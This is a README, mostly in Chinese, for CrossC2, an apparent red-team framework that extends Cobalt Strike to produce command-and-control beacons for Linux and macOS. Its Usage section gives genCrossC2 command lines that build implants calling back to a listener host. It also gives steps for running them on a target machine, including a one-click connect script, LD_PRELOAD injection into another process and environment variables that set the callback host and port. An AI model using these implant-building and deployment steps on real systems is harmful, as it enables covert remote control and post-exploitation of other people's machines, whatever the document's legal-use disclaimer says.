

# CrossC2 framework


[](https://GitHub.com/gloxec/CrossC2/issues?q=is%3Aissue+is%3Aclosed)
[](https://github.com/gloxec/CrossC2/releases/latest)
[](https://github.com/gloxec/CrossC2/releases/latest)


<p align="center">
  
</p>


[README](README.md) | [中文文档](README_zh.md) | [README_FULL](README_full.md) | [中文完整文档](README_zh_full.md) 


# CobaltStrike 支持说明

支持CobaltStrike对其他平台(Linux/MacOS/...)的安全评估，及包含Unix后渗透模块开发支持

|                 | CS3.14(bug fixes) | CS4.0 | CS4.X (4.1~4.8) |
|-----------------|----------|-------|---------------|
| Master分支        | ✅        |       |               |
| cs4.0分支         |          | ✅     |               |
| cs4.1分支         |          |       | ✅             |
|                 |          |       |               |
| Release 页面 <= v2.1 | ✅        |       |               |
| Release 页面 >= v2.2 |          |       | ✅             |




# Usage

Usage 链接: 

>  1. 下载

从 [Release页面](https://github.com/gloxec/CrossC2/releases) 下载:

1. **genCrossC2** (beacon生成器)
2. **CrossC2.cna** (GUI生成器插件) 修改`CrossC2.cna`配置并加载
3. **CrossC2Kit** (CrossC2相关插件) 加载 `CrossC2Kit_loader.cna`

>  2. 创建listener与拷贝key

* 创建`windows/beacon_https/reverse_https` listener
* 拷贝**teamserver目录**的 `.cobaltstrike.beacon_keys`到**本地**

>  3. 功能扩展

* 添加`CrossC2Kit_Loader.cna`, 包含内存加载等其它功能
* `cs4.x`版本文件管理、进程列表功能被CS官方移除，必须使用此Loader来重启

>  4. 生成beacon

默认使用cli或cna提供的GUI功能生成beacon

`genCrossC2 <listener-ip/domain> <listener-port> <beacon_keys> <rebind_library;config.ini;c2profile.profile> <target_platform> <target_arch>`
    
ex:

```
1. 从当前路径读取beacon Key并生成默认profile流量协议的beacon
    genCrossC2 127.0.0.1 5555 null null Linux x64 beacon.out
     
2. 指定自定义协议动态库的beacon
    genCrossC2 127.0.0.1 5555 .cobaltstrike.beacon_keys c2profile.so MacOS x64 beacon.out

3. 指定需要自动解析的c2profile
    genCrossC2 www.example.com 443 .cobaltstrike.beacon_keys ";;c2profile.profile" Linux x64 beacon.out
```

更多高级配置具体可见文档: [📄文档](https://github.com/gloxec/CrossC2/wiki/genCrossC2_zh)

> 5. 运行beacon

* 在目标上运行CrossC2插件生成的一键上线脚本
* 上传beacon至目标机器后进行赋权运行
* 以动态库方式注入其他进程执行: `LD_PRELOAD=/tmp/c2.so java`
* 为beacon设定工作目录并运行: `export CCPATH=/opt/ && /tmp/c2`
* 为beacon临时指定协议库并运行: `/tmp/c2 /tmp/c2-rebind.so`
* 为beacon临时设定C2配置: `export CCHOST=127.0.0.1 && export CCPORT=443 && /tmp/c2`

# CrossC2Kit

CrossC2Kit: https://github.com/CrossC2/CrossC2Kit

CrossC2Kit 是围绕着CrossC2 衍生出的Unix平台后渗透扩展，采用 **Aggressor Script** 开源脚本引擎。可以用来创建自动化来模拟红队操作过程，以及扩展CobaltStrike客户端。

CrossC2Kit 整体继承于CobaltStrike原有的功能，所以开发与编写语法仍然参照官方文档: https://trial.cobaltstrike.com/aggressor-script/index.html

但它在 CrossC2 之上又进行了一些API拓展，用于控制 Unix 平台beacon

API: [📄文档](https://github.com/CrossC2/CrossC2Kit/wiki/API-Reference)

使用演示: 


# 提示

`仅做企业、组织内部自身使用，本框架具有一定脆弱性，非专业人员请勿使用，以及禁止用于非法用途及盈利等，否则造成经济损失等问题自行承担并追究其相关责任!`

# todo

1. http-proxy (auth) & socks 代理回连支持
2. node beacon? (单个节点式，可进行不依靠teamserver托管其他beacon)
- [x] 3. Linux & MacOS 端so/dylib的上线支持、及其衍生的进程注入等功能

# 感谢

感谢 **@Emma** 为CrossC2设计的Logo, 沿用 **Armitage** 、**CobaltStrike** 系列风格进行设计